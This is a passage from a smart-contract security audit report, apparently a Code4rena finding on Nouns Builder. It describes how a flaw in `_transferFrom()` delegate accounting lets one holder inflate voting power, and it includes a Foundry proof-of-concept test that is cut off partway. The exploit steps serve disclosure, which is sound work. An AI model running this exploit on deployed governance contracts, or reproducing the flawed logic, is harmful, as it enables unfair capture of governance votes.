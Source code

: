 

***

## [[H-05] `_transferFrom()` can be used to indefinitely increase voting power](https://github.com/code-423n4/2022-09-nouns-builder-findings/issues/224)
*Submitted by Soosh, also found by Ch\_301, davidbrai, and PwnPatrol*

It is possible to indefinitely increase voting power by creating new accounts (addresses) and delegating. This will lead to unfair governance as a user can vote with more votes than actual.

### Explanation

The `_transferFrom()`  does not move delegates from the src's delegates to the destination's delegates, instead, it moves directly from src to dest. (see recommendations and Code POC for better understanding)

### Code POC

```solidity
// Insert this test case into Token.t.sol
// Run: forge test --match-contract Token -vv

import "forge-std/console.sol";
...
function testIncreaseVotePower() public {
        deployMock();

        address voter1;
        address voter2;
        uint256 voter1PK;
        uint256 voter2PK;

        // Voter with 1 NFT voting power
        voter1PK = 0xABC;
        voter1 = vm.addr(voter1PK);
        vm.deal(voter1, 1 ether);
        // Second account created by same voter
        voter2PK = 0xABD;
        voter2 = vm.addr(voter2PK);

		// Giving voter1 their 1 NFT
        vm.prank(founder);
        auction.unpause();
        vm.prank(voter1);
        auction.createBid{ value: 0.420 ether }(2);
        vm.warp(auctionParams.duration + 1 seconds);
        auction.settleCurrentAndCreateNewAuction();

        // Start Exploit
        console.log("Initial Votes");
        console.log("voter1: ", token.getVotes(voter1));
        console.log("voter2: ", token.getVotes(voter2));
        
        vm.prank(voter1);
        token.delegate(voter2);
        console.log("After Delegating Votes, voter1 -> delegate(voter2)");
        console.log("voter1: ", token.getVotes(voter1));
        console.log("voter2: ", token.getVotes(voter2));

        vm.prank(voter1);
        token.transferFrom(voter1, voter2, 2); 
        console.log("After Token transfer, voter1 -transferFrom()-> voter2");
        console.log("voter1 votes: ", token.getVotes(voter1));
```